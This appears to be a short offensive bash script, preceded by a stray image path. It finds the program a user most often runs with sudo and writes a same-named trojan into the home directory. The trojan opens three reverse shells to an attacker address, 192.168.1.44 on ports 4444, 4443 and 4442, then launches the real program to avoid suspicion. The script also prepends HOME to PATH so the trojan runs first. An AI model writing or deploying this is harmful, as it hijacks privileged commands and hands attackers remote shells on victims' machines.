 #!/bin/bash
# find most common app used with sudo
common=`history | grep sudo | awk '{print $2, $3}' | sort | uniq -c | sort -nr | awk '{print $3}' | awk '(NR>=0 && NR<=11){print} (NR==1){exit}'`
location=`whereis $common | awk '{print $2}'`

# create malicious app
cat << EOF > ~/$common
#!/bin/bash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1 2>&1 &
exec 196<>/dev/tcp/192.168.1.44/4443; sh <&196 >&196 2>&196 &
/bin/bash -l > /dev/tcp/192.168.1.44/4442 0<&1 2>&1 &
# open original program to prevent suspicion 
$location $1 $2 $3 $4 $5 $6 $7 $8 $9
EOF

# make new app executable
chmod 777 ~/$common

# add HOME directory to the PATH
export PATH=$HOME:$PATH
